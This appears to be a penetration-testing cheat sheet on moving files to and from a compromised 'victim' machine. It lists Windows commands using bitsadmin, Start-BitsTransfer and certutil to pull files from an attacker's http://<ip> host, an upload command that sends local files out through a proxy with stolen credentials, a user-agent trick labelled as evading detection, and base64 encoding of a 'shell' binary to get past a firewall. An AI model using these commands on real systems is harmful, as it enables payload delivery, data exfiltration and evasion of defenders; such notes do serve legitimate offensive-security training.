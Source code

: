 ## Bitsadmin 

- Download 

```console
PS C:\victim> bitsadmin /transfer n http://<ip>/<target file> C:\Temp\<output file>
PS C:\victim> Import-Module bitstransfer; Start-BitsTransfer -Source "http://<ip>/<file>" -Destination "C:\Temp\<output file>"
```

- Upload 

```console
PS C:\victim> Start-BitsTransfer "C:\Temp\<file>" -Destination "http://<ip>/<path>/<output file>" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential <credentials>\svc-sql
```

## Certutil 

```console
C:\victim> certutil.exe -verifyctl -split -f http://<ip>/<file>
```

## Evading detection 

We can change our **User Agent** to evade detection. First list all the aviable:
```console
PS C:\victim> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Using **Chrome User Agent**:
```console
PS C:\victim> Invoke-WebRequest http://<ip>file>/ -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "<path to output file>"
```

---

# Linux

## base64

If the machine has a firewall that prevent this the file transfer we can encode it:
```console
zero@pio$ base64 shell -w 0
  f0VM.. <SNIP> ...mDwU
```

And in the victim:
```console
victim@machine$ echo f0VM... <SNIP> ...mDwU | base64 -d > shell
```
